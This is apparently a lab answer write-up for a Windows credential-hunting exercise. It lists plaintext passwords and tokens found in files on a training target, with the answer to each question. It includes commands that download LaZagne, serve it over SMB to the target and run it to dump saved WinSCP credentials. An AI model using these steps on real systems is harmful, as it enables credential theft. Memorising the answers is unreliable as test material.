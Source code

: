 # Credential Hunting in Windows

### What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)

```bash
C:\Users\bob\Desktop\WorkStuff\Creds\passwords.ods
Switches via SSH		admin	WellConnected123
DC via RDP		bwilliamson	P@55w0rd!
```

WellConnected123

### What is the GitLab access code Bob uses? (Format: Case-Sensitive)

```bash
C:\Users\bob\Desktop\WorkStuff\GitlabAccessCodeJustIncase.txt
#Gitlab access code just in case I lose connectivity with our local Gitlab instance.
#3z1ePfGbjWPsTfCsZfjy
```

3z1ePfGbjWPsTfCsZfjy

### What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)

We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store.

```bash
#download lazagne and transfer it into the target
wget https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe
impacket-smbserver shared -smb2support /tmp/shared
#from the target machine
copy \\10.10.14.179\shared\LaZagne.exe
```

Once Lazagne.exe is on the target, we can open command prompt or PowerShell, navigate to the directory the file was uploaded to, and execute the following command:

```bash
start lazagne.exe all
------------------- Winscp passwords -----------------
[+] Password found !!!
URL: 10.129.202.64
Login: ubuntu
Password: FSadmin123
Port: 22
```

### What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)

```bash
C:\Automations&Scripts\BulkaddADusers.ps1
Import-Module ActiveDirectory
Import-Csv "C:\Users\bob\WorkStuff\NewUsers.csv" | ForEach-Object {
 $userPrincipal = $_."samAccountName" + "@inlanefreight.local"
New-ADUser -Name $_.Name `
 -Path $_."ParentOU"
 -SamAccountName $_."samAccountName" `
 -UserPrincipalName $userPrincipal ` 
 -AccountPassword (ConvertTo-SecureString "Inlanefreightisgreat2022" -AsPlainText -Force) `
 -ChangePasswordAtLogon $true
 -Enabled $true 
Add-ADGroupMember "Domain Admins" $_."samAccountName";
```

Inlanefreightisgreat2022

### What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)

```bash
C:\Automations&Scripts\AnsibleScripts\EdgeRouterConfigs
name: Configure Interfaces Status
user: "{ edgeadmin }"
passwd: "{ Edge@dmin123!} "
```

edgeadmin:Edge@dmin123!

